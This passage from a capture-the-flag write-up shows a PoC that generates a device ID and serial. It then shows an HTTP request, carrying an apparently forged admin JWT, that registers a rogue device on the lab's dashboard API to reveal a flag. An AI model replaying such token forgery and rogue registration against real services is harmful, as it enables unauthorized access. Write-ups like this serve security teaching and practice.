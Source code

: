 We ran the PoC:

```powershell
$ python3 poc.py 
59650d62169c4a187f047c084286c3c3f9ba39b71e99b43ca7bbea7cd7c07b51
33498
```

We reused those values for the `POST` request:

```powershell
POST /api/register/ HTTP/1.1
Host: dashboard.fms.ctf
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbkBmbXMuY3RmIiwiYWRtaW4iOnRydWUsImV4cCI6MTc0NzQ5Njk2NH0.aIW3WIKuG2rhPmCWx2T7E2v58R8m4T2wvTuyT-bUwDw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Content-Type: application/json
Content-Length: 235

{
  "device_id": "59650d62169c4a187f047c084286c3c3f9ba39b71e99b43ca7bbea7cd7c07b51",
  "serial": "e4ea-6210-33498",
  "machine_id": "99999999999999999999999999999999",
  "ip": "fe80::a471:c9ff:feea:6210",
  "mac": "00:18:55:ea:62:10"
}
```

It worked:

```powershell
HTTP/1.1 200 OK
Server: nginx
Date: Sat, 17 May 2025 17:46:26 GMT
Content-Type: application/json
Content-Length: 315
Connection: keep-alive

{
    "ip":"fe80::a471:c9ff:feea:6210",
    "serial":"e4ea-6210-33498",
    "machine_id":"99999999999999999999999999999999",
    "last_seen":"2025-05-16T13:31:05.016958",
    "device_id":"59650d62169c4a187f047c084286c3c3f9ba39b71e99b43ca7bbea7cd7c07b51",
    "mac":"00:18:55:ea:62:10",
    "first_seen":"2025-05-16T13:31:05.016888",
    "activated":false
}
```

We found a new device, and a new flag on the user interface:

![New device registered](./res/nsec25/new-device.png)
